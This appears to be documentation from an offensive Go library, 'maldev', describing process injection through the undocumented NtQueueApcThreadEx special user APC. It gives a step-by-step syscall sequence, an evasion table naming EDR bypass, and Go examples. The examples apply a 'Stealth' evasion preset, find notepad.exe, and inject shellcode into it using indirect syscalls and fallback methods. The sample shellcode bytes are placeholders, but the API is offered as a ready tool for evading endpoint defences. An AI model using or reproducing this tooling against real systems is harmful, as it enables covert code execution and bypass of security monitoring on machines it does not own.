

# NtQueueApcThreadEx (Special User APC)

> **MITRE ATT&CK:** T1055.004 -- Process Injection: Asynchronous Procedure Call | **Detection:** Medium -- uses undocumented APC flag, but targets remote processes

## Primer

Standard APC injection (Early Bird, QueueUserAPC) has a fundamental limitation: the target thread must enter an "alertable wait" state before the APC fires. This means you either need to create a new suspended process (Early Bird) or hope an existing thread calls `SleepEx`, `WaitForSingleObjectEx`, or similar. If no thread ever enters an alertable wait, your shellcode never runs.

Windows 10 version 1903 introduced a game-changer: **Special User APCs**. These are APCs that fire immediately at the next kernel-to-user transition, without requiring an alertable wait. The undocumented `NtQueueApcThreadEx` function accepts a flag (`QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC = 1`) that enables this behavior.

This means you can inject shellcode into any running process -- no need to create a new suspended process, and no need to wait for an alertable state. Pick any thread, queue the APC, and it fires.

## How It Works



**Step-by-step:**

1. **OpenProcess** -- Open the target process with `PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ`.
2. **NtAllocateVirtualMemory** -- Allocate `PAGE_READWRITE` memory in the target.
3. **NtWriteVirtualMemory** -- Write shellcode into the allocated region.
4. **NtProtectVirtualMemory** -- Flip permissions to `PAGE_EXECUTE_READ`.
5. **Enumerate threads** -- Find all threads of the target process via `CreateToolhelp32Snapshot`.
6. **OpenThread(THREAD_SET_CONTEXT)** -- Open a thread handle.
7. **NtQueueApcThreadEx(hThread, 1, addr, 0, 0, 0)** -- Queue a special user APC. Flag `1` = `QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC`.
8. The APC fires automatically at the next kernel-to-user mode transition -- no alertable wait needed.

The implementation tries all threads in sequence and stops at the first successful queue.

## Special User APC vs Standard APC

| Aspect | QueueUserAPC (Standard) | NtQueueApcThreadEx (Special) |
|--------|------------------------|------------------------------|
| Alertable wait required | Yes | No |
| Minimum Windows version | XP+ | 10 1903+ (build 18362) |
| API documentation | Documented (kernel32) | Undocumented (ntdll) |
| Needs suspended process | Typically (Early Bird) | No |
| Delivery timing | When thread enters alertable wait | Next kernel→user transition |
| EDR monitoring | Well-known pattern | Less monitored |

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Inject into a target process by PID.
    injector, err := inject.Build().
        Method(inject.MethodNtQueueApcThreadEx).
        TargetPID(1234).
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/process/enum"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Apply evasion.
    if errs := evasion.ApplyAll(preset.Stealth(), nil); errs != nil {
        log.Printf("evasion errors: %v", errs)
    }

    // 2. Find target process.
    procs, err := enum.FindByName("notepad.exe")
    if err != nil || len(procs) == 0 {
        log.Fatal("target not found")
    }

    // 3. Inject via NtQueueApcThreadEx with indirect syscalls.
    injector, err := inject.Build().
        Method(inject.MethodNtQueueApcThreadEx).
        TargetPID(int(procs[0].PID)).
        IndirectSyscalls().
        WithFallback().
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- avoids thread creation APIs, but still writes to remote process memory. |
| Scope | Remote injection (requires target PID). |
| Compatibility | Windows 10 1903+ only (build 18362). Fails on older versions. |
| No alertable wait | The key advantage: APCs fire immediately without the target cooperating. |
| Thread enumeration | Tries all threads; first successful queue wins. Some threads may refuse `THREAD_SET_CONTEXT`. |
| Caller routing | Full -- `OpenProcess`, memory operations, and `NtQueueApcThreadEx` all route through Caller for EDR bypass. |
| Fallback | Falls back to QueueUserAPC (standard), then CreateRemoteThread. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| NtQueueApcThreadEx support | Yes | No | Limited (BOF) | No |
| Special user APC flag | Yes (flag=1) | N/A | Varies | N/A |
| Syscall routing | Direct/Indirect/WinAPI | N/A | BOF | No |
| Multi-thread fallback | Yes (tries all threads) | N/A | N/A | N/A |
| Builder API | Fluent `.Build()` | N/A | Profile | N/A |

## API Reference

```go
// Method constant
const MethodNtQueueApcThreadEx Method = "apcex"

// Builder pattern
injector, err := inject.Build().
    Method(inject.MethodNtQueueApcThreadEx).
    TargetPID(targetPID).
    Create()

// With indirect syscalls
injector, err := inject.Build().
    Method(inject.MethodNtQueueApcThreadEx).
    TargetPID(targetPID).
    IndirectSyscalls().
    Create()

// Config pattern
cfg := &inject.WindowsConfig{
    Config: inject.Config{
        Method: inject.MethodNtQueueApcThreadEx,
        PID:    targetPID,
    },
    SyscallMethod: wsyscall.MethodIndirect,
}
injector, err := inject.NewWindowsInjector(cfg)
```
